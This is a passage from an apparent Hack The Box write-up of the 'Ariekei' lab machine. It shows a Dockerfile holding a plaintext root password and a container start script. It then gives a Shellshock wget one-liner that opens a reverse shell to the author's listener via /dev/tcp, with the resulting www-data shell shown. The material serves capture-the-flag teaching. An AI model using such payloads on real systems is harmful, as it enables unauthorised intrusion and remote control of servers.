 -rwxr--r-- 1 root  999   32 Sep 16 00:45 build.sh
drwxr-xr-x 2 root root 4096 Sep 26 18:24 cgi
drwxr-xr-x 7 root  999 4096 Sep 26 18:15 config
drwxr-xr-x 2 root root 4096 Dec 19 06:00 logs
-rwxrwx--x 1 root  999  386 Nov 13 14:36 start.sh
```

It seems to be the one with the cgi dir (Shellshock ahem ahem)

```
root@ezra:/common/containers/blog-test# cat Dockerfile 
FROM internal_htb/docker-apache
RUN echo "root:Ib3!kTEvYw6*P7s" | chpasswd
RUN apt-get update 
RUN apt-get install python -y
RUN mkdir /common 
```

```
root@ezra:/common/containers/blog-test# cat start.sh 
docker run \
-v /dev/null:/root/.sh_history \
-v /dev/null:/root/.bash_history \
--restart on-failure:5 \
--net arieka-test-net --ip 172.24.0.2 \
-h beehive.ariekei.htb --name blog-test -dit \
-v /opt/docker:/common:ro \
-v $(pwd)/cgi:/usr/lib/cgi-bin:ro \
-v $(pwd)/config:/etc/apache2:ro \
-v $(pwd)/logs:/var/log/apache2 \
-v /home/spanishdancer:/home/spanishdancer:ro  web-template
```

We know that the internal ip for the cgi website is 172.24.0.2

Now we can try and run shellshock via the internal network and hope the WAF doesnt block us (We should check the WAF settings before we do it, but wth!)


```
root@ezra:/common/containers/blog-test# wget -U "() { test;};echo \"Content-type: text/plain\"; echo; /bin/bash -i >/dev/tcp/10.10.14.54/4445 0<&1 2>&1" http://172.24.0.2/cgi-bin/stats
--2017-12-19 08:07:17--  http://172.24.0.2/cgi-bin/stats
Connecting to 172.24.0.2:80... connected.
HTTP request sent, awaiting response... 
```

```
root@kali:~/hackthebox/Ariekei# nc -nvlp 4445
listening on [any] 4445 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.10.65] 37862
www-data@beehive:/usr/lib/cgi-bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@beehive:/usr/lib/cgi-bin$ hostname
hostname
beehive.ariekei.htb
www-data@beehive:/usr/lib/cgi-bin$  
```

Shellz!

The docker file had a root password ```Ib3!kTEvYw6*P7s```

We can do su with that ofcourse
```